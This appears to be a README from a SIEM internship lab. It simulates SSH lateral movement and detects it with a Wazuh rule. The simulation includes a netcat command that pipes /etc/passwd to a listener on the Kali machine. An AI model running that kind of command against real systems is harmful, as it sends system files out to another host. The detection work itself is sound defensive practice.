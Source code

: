 # Lateral Movement Detection (SSH/Rsync)
**Simulate from Ubuntu to another Linux box (or back to Kali):**

    ssh user@<kali-ip>

**Or simulate with netcat:**

nc -lvnp 2222     # on Kali

nc <kali-ip> 2222 < /etc/passwd   # on Ubuntu
________________________________________
**Wazuh rule:**

    <rule id="101300" level="12">
      <match>sshd</match>
      <description>Remote connection - possible lateral movement via SSH</description>
      <mitre>
        <id>T1021</id>
      </mitre>
    </rule>

Monitor /var/log/auth.log for SSH outbound logins.
________________________________________


# Proof-Of-Concept

![Lateral Movement Detection](https://github.com/Gagancybersec01/SIEM-Internship-Phase-1/blob/b6063da8c0f9dd21fbacfedd79c372ad59d27606/Screenshots/Lateral-movement-Detection.png)





